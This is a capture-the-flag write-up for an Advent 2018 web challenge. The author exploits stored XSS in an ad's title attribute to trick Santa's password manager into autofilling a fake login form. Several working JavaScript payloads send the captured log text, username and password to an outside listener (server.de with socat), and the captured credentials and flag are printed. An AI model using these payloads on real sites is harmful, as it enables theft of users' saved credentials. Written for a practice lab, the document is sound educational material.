




# Santa Claus' Home Page
Okay this will be quick and dirty to at least document one possible solution to this challenge.

We are presented with Santas homepage with a list of naught and nice people. In addition there's a link to a login page (login.php) with a simple login form with username and password.




Without too much further thinking first steps involved checking if any obvious sql injections might work ... turned out to not be the case (well, didn't try harder).

At the beginning when using chrome I missed an important item on that page though. Since I had ad-blocker enabled it blocked an otherwise visable image that was hosted on a different host/subdomain.

Santas page was at:` http://santa.advent2018.overthewire.org:1219/`

the ad was coming from here:	`	`




## adding ads
So lets head to ad.advent2018.overthewire.org:1219/ and see if there's something interesting.

Indeed on that site you get an input form where you can leave your "subliminal message" that will be shown together with the image to users of this site. Turns out the input will be added unfiltered as the value of the _title_ attribute.

Text says this year target for advertising is Santa ...  okay what kind of messages can we sent and what will happen? This looks like we need to look into some XSS vulnerability on that page.




So lets input something into the msg input field and see where if/where it ends up on the page.

Startgin with:
```
'<script>alert('hohoho');</script>
```

This is part of the html source of the generated page:

```
Your message will be shown when visitors to our embedded advertisements
hover over the following image.

alert(" hohoho');<="" script="">
```



So we can inject code into the title attribute of the image ... nice. And it seems no filtering that would prevent obvious/dangerous javascript is active.

Note, this sample worked but need to pay attention to not using single quote since that is added by the page to close the _title_ attr.

You will notice that the url for the preview site is something like: http://ad.advent2018.overthewire.org:1219/ad/Odl4TDuXLm

And the page redirects to santa the url will be eg.:  http://santa.advent2018.overthewire.org:1219/?/Odl4TDuXLm


Okay nice we can inject javascript.

From here it took me quite some time to get to a point to really understand what needs to be done, then it took forever to figure out how to do this. Unfortunately not even til end of challange :(

Anyways I figured that the server are still up and running and stumbled over that open browser tab again a few days later... f..k it will become late again ;)


Back to the description of the challange:
> Santa uses a crappy password manager,
> which leaves traces around in 'window.pwmanagerLog'.
> Can you get his login credentials? You need to login to get the flag...

So the task really seems easy ... make Santa use his password manager to login!

So I thought it would be possible to maybe just have some javascript to grab username and password from the input fields  and exfiltrate to an external server. But I was unsuccessful with that.

My tries include stuff like:
```
var u = document.getElementsByName("username")[0].value;
var p = document.getElementsByName("password")[0].value;
xhr.open('GET', "http://server.de:12345/?u2="+u+"&p="+p); xhr.send();
```

Nothing useful  ... also I wasn't sure about the _pwmangerLog thing. I tried if I can access something like: _document.querySelectorAll("pwmanagerLog")[0].innerHTML_ . But that didn't return anything either.

Maybe it's possible to get notified if something writes to _pwmangerLog_.
You can define getters and setters on javascript objects. With this it might be possible to get some trigger running once the password manager does write to the log.
After a while I came up with this snippet, it basically registers a callback if someone does _set_ the pwmanagerLog. Here I used simple document.location to make a request to remote server.

```
free beer'><script>
window.__defineSetter__("pwmanagerLog", function(val){document.location="http://server.de:12345/?data="+btoa(val); this.pwmanagerLog=val; });
</script>
```
On the remote server I had something like:
`$ socat STDIO TCP-LISTEN:12345,reuseaddr,fork`

we got a request on our server with:
```
GET /?data=RmFpbHVyZTogVVJMIGRvZXMgbm90IGVuZCBpbiAvbG9naW4ucGhw HTTP/1.1
```
base64 decode -> **Failure: URL does not end in /login.php**

Next try, maybe can just append login.php to location.href:
```

free beer'>
<script>
window.location.href = document.location+"#/login.php";
window.__defineSetter__("pwmanagerLog", function(val){document.location="http://server.de:12345/?data="+btoa(val); });
</script>
```
**Failure: No forms present!!!**

... getting better but we need a form:

```
free beer'>
<script>
window.location.href = document.location+"#/login.php";
</script>
<form class="login" method="POST" action="#/login.php">
<input type="text" name="username" placeholder="Username">
<input type="password" name="password" placeholder="Password">
<button type="submit" class="float">Login</button>
</form>
<script>
window.__defineSetter__("pwmanagerLog", function(val){document.location="http://server.de:12345/?data="+btoa(val); });
</script>
```
**GET /?data=Success! Valid login form recognized. HTTP/1.1**


Cool, but where's Santas password? So here I'm unsure if it should actually show up in the pwmanagerLog as well...

Anyway since we have a valid form lets just grab it from there ...  here the first tries again failed and there was only empty username password sent back. But due probalby because the setter callback took longer we also received the username/password request on our server before the pwmanger log message ...

So it might help to just wait a few seconds to get the form filled out and then try this again ... so my final ad message looked like this (at this point the setter probably does not need to be send again:

```
free beer'>
<script>
window.location.href = document.location+"#/login.php";
</script>
<form class="login" method="POST" action="#/login.php">
<input type="text" name="username" placeholder="Username">
<input type="password" name="password" placeholder="Password">
<button type="submit" class="float">Login</button>
</form>
<script>
window.__defineSetter__("pwmanagerLog", function(val){ var xhr=new XMLHttpRequest(); xhr.open("GET", "http://server.de:12345/?data="+btoa(val)); xhr.send(); });
setTimeout(function(){ var x2 = new XMLHttpRequest(); x2.open("GET", "http://server.de:12345/?u="+btoa(document.getElementsByName("username")[0].value)+"&p="+btoa(document.getElementsByName("password")[0].value)); x2.send(); }, 6000);
</script>
```


here's parts of the request that arrived on the server side:
```

GET /?data=U3VjY2VzcyEgVmFsaWQgbG9naW4gZm9ybSByZWNvZ25pemVkLg== HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.120 Safari/537.36
Referer: http://santa.advent2018.overthewire.org:1219/?LD6VakUUPR
Origin: http://santa.advent2018.overthewire.org:1219
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: server.de:12345


GET /?u=U2FudGFDbGF1cw==&p=UGEkc1doMGgwaDByRA== HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.120 Safari/537.36
Referer: http://santa.advent2018.overthewire.org:1219/?ouSaWrRaAq
Origin: http://santa.advent2018.overthewire.org:1219
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: server.de:12345
```

and et voila ... here we go ....

***u=SantaClaus***
***p=Pa$sWh0h0h0rD***


```
You logged in successfully!!!
Here is some candy:
	AOTW{m4ke_list__ch3ck_ch3ck!}
```
